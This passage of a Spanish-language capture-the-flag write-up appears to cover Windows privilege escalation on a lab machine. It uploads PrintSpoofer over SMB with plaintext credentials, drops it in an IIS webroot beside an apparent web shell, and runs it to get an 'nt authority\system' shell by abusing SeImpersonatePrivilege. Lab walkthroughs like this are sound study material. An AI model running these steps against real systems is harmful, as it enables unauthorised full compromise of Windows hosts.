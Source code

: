Podrias usar `JuicyPotato` 

<https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens>

Pero bueno el creador del room dijo lo siguiente

>
* **El creador dijo esto:** DCOM is disabled on this server which prevents potato attacks, and there are no tokens to impersonate.
>

Bueno investigando encontre este `exploit` que funciona para el `windows` al que estamos

<https://github.com/dievus/printspoofer>

Una vez lo descargamos vamos a subirlo con `smbclient` ala maquina

```bash
❯ smbclient //10.10.26.76/nt4wrksv -U Bill --password Juw4nnaM4n420696969
Try "help" to get a list of possible commands.
smb: \> put PrintSpoofer.exe
putting file PrintSpoofer.exe as \PrintSpoofer.exe (10.7 kb/s) (average 10.7 kb/s)
smb: \> 
```

Ahora vamos a la ruta para ver si esta hay y si

```bash
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of c:\inetpub\wwwroot\nt4wrksv

04/05/2023  02:27 PM    <DIR>          .
04/05/2023  02:27 PM    <DIR>          ..
07/25/2020  08:15 AM                98 passwords.txt
04/05/2023  02:27 PM            27,136 PrintSpoofer.exe
04/05/2023  02:17 PM             3,410 ziz.aspx
               3 File(s)         30,644 bytes
               2 Dir(s)  20,261,179,392 bytes free

c:\inetpub\wwwroot\nt4wrksv>
```

Ahora lo ejecutamos y estamos como `nt authority\system`

```bash
PrintSpoofer.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

whoami
whoami
nt authority\system

C:\Windows\system32>
```
